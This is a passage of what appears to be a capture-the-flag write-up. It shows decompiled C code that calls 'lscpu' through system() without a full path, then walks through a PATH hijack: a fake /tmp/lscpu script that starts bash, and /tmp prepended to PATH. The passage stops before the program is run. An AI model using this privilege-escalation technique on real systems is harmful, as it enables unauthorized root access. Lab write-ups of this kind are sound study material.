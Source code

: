 ```
        putchar(10);
        system("/usr/bin/w");
        puts("\n");
        break;
      case 5:
        putchar(10);
        system("/sbin/ip route | column -t");
        puts("\n");
        break;
      case 6:
        putchar(10);
        system("lscpu");
        puts("\n");
        break
 ```
 
 And if you look at case6 we can see its vulnerability
 
 ```
 case 6:
        putchar(10);
        system("lscpu");
        puts("\n");
        break
```

It runs system `lscpu` without specifying its full path 

With that we can perform a path hijack 
 
Here's what happens when you perform a path hijack 

```
1. When case 6 is chosen
2. The program runs lscpu which is a command to get cpu information
3. But what happens when it runs, it gets where the binary location from the path variable
4. So if we manipulate the path instead of the program to run /bin/lscpu it will find check the path we injected in path variable
```

Lets get to it

```
Debian-snmp@escape:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
Debian-snmp@escape:/tmp$ nano lscpu
Debian-snmp@escape:/tmp$ chmod +x lscpu 
Debian-snmp@escape:/tmp$ cat lscpu 
#!/bin/bash

/bin/bash
```

Now i'll add the /tmp directory to the path variable

```
Debian-snmp@escape:/tmp$ export PATH=/tmp:$PATH
Debian-snmp@escape:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
Debian-snmp@escape:/tmp$
```
